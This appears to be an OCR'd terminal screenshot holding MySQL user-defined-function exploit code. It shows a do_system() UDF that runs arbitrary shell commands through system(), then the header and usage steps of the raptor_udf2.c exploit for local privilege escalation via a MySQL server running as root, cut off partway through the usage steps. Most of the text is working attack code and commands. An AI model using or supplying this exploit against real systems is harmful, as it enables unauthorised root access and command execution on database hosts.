 ```c
typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}

// milw0rm.com [2006-02-20]user@debian:~/tools/mysql-udf$ 
user@debian:~/tools/mysql-udf$ 
user@debian:~/tools/mysql-udf$ cat raptor_udf2.c 
/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * This is an helper dynamic library for local privilege escalation through
 * MySQL run with root privileges (very bad idea!), slightly modified to work 
 * with newer versions of the open-source database. Tested on MySQL 4.1.14.
 *
 * See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 *
 * Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 * for the security vulnerabilities in the handling of User Defined Functions
 * (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 * details, please refer to:
 *
 * http://dev.mysql.com/doc/refman/5.0/en/udf-security.html
 * http://www.wisec.it/vulns.php?page=4
 * http://www.wisec.it/vulns.php?page=5
 * http://www.wisec.it/vulns.php?page=6
 *
 * "UDFs should have at least one symbol defined in addition to the xxx symbol 
 * that corresponds to the main xxx() function. These auxiliary symbols 
 * correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and 
 * xxx_add() functions". -- User Defined Functions Security Precautions 
 *
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
```